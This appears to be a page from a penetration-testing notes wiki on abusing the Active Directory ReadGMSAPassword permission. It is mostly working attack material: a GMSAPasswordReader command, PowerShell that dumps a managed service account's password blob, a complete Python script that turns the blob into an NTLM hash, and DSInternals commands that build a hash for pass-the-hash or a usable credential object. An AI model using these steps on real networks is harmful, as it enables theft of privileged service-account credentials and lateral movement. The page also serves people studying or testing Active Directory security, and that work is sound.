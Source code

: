 # GMSAPasswordRead

ReadGMSAPassword allows an attacker to use the password of a Group Managed Service Account which usually has elevated privileges

<figure><img src="../../../.gitbook/assets/image (18) (3) (4).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#reading-gmsa-password" %}

{% embed url="https://github.com/expl0itabl3/Toolies" %}

```powershell
.\GMSAPasswordReader.exe --accountname 'svc_account'
```

### Remotely Read GMSA Passwords

Retrieve hash remotely if we can't WinRM

{% embed url="https://www.thehacker.recipes/ad/movement/dacl/readgmsapassword" %}

{% embed url="https://github.com/micahvandeusen/gMSADumper" %}

### Manually from gMSADumper

```powershell
(Get-ADServiceAccount -Identity 'SVC_ACCOUNT' -Properties 'msDS-ManagedPassword').'msDS-ManagedPassword' > blob.txt
```

```powershell
(Get-Content 'blob.txt') -join ','
1,0,0,0,36,2,0,0,16,0,18,1,......
```

{% code title="blob2hash.py" %}
```python
#!/usr/bin/env python3
from ldap3 import ALL, Server, Connection, NTLM, SASL, KERBEROS, extend, SUBTREE
import argparse
from binascii import hexlify
from Cryptodome.Hash import MD4
from impacket.ldap.ldaptypes import ACE, ACCESS_ALLOWED_OBJECT_ACE, ACCESS_MASK, LDAP_SID, SR_SECURITY_DESCRIPTOR
from impacket.structure import Structure
from impacket.krb5 import constants
from impacket.krb5.crypto import string_to_key
import sys

data = [1,0,0,0,36,2,0,0,16,0,18,1,......]
#convert this into bytes
data = bytes(data)

class MSDS_MANAGEDPASSWORD_BLOB(Structure):
    structure = (
        ('Version','<H'),
        ('Reserved','<H'),
        ('Length','<L'),
        ('CurrentPasswordOffset','<H'),
        ('PreviousPasswordOffset','<H'),
        ('QueryPasswordIntervalOffset','<H'),
        ('UnchangedPasswordIntervalOffset','<H'),
        ('CurrentPassword',':'),
        ('PreviousPassword',':'),
        #('AlignmentPadding',':'),
        ('QueryPasswordInterval',':'),
        ('UnchangedPasswordInterval',':'),
    )

    def __init__(self, data = None):
        Structure.__init__(self, data = data)

    def fromString(self, data):
        Structure.fromString(self,data)

        if self['PreviousPasswordOffset'] == 0:
            endData = self['QueryPasswordIntervalOffset']
        else:
            endData = self['PreviousPasswordOffset']

        self['CurrentPassword'] = self.rawData[self['CurrentPasswordOffset']:][:endData - self['CurrentPasswordOffset']]
        if self['PreviousPasswordOffset'] != 0:
            self['PreviousPassword'] = self.rawData[self['PreviousPasswordOffset']:][:self['QueryPasswordIntervalOffset']-self['PreviousPasswordOffset']]

        self['QueryPasswordInterval'] = self.rawData[self['QueryPasswordIntervalOffset']:][:self['UnchangedPasswordIntervalOffset']-self['QueryPasswordIntervalOffset']]
        self['UnchangedPasswordInterval'] = self.rawData[self['UnchangedPasswordIntervalOffset']:]


                    
blob = MSDS_MANAGEDPASSWORD_BLOB()
blob.fromString(data)
currentPassword = blob['CurrentPassword'][:-2]

# Compute ntlm key
ntlm_hash = MD4.new ()
ntlm_hash.update (currentPassword)
passwd = hexlify(ntlm_hash.digest()).decode("utf-8")
                    
print(passwd)                   
```
{% endcode %}

```
python blob2hash.py
```

### Powershell

```powershell
# Save the blob to a variable
$gmsa = Get-ADServiceAccount -Identity 'Target_Account' -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'

# Decode the data structure using the DSInternals module
ConvertFrom-ADManagedPasswordBlob $mp
# Build a NT-Hash for PTH
(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword | ConvertTo-NTHash
# Alterantive: build a Credential-Object with the Plain Password
$cred = new-object system.management.automation.PSCredential "Domain\Target_Account",(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
```
